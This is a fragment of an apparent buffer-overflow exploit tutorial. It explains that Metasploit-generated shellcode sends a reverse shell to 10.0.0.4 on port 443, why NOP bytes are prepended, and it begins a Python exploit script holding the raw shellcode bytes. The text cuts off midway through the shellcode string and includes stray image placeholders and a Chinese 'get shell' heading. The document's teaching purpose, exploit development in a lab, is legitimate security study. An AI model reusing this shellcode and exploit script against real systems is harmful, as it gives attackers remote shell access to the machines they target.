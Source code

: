 ![](media/8c24c8c1731c7539cadf1bc15844bf7c.png)

351 bytes

The resulting shellcode will send a reverse shell to 10.0.0.4 on port 443,
contains no bad characters, and is 351 bytes long.

获取shell

However, since the ESP register points to the beginning of our payload, the
Metasploit Framework decoder will step on its toes, by overwriting the first few
bytes of our shellcode, rendering it useless. We can avoid this issue by adding
few No Operation (NOP) instructions (0x90) at the beginning of our shellcode. As
the name suggests, this instruction does nothing - it simply moves on to the
next instruction to be executed.

\#!/usr/bin/python

import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

shellcode =
("\\xba\\x36\\xb6\\x24\\xa0\\xd9\\xeb\\xd9\\x74\\x24\\xf4\\x58\\x31\\xc9\\xb1"

"\\x52\\x83\\xe8\\xfc\\x31\\x50\\x0e\\x03\\x66\\xb8\\xc6\\x55\\x7a\\x2c\\x84"
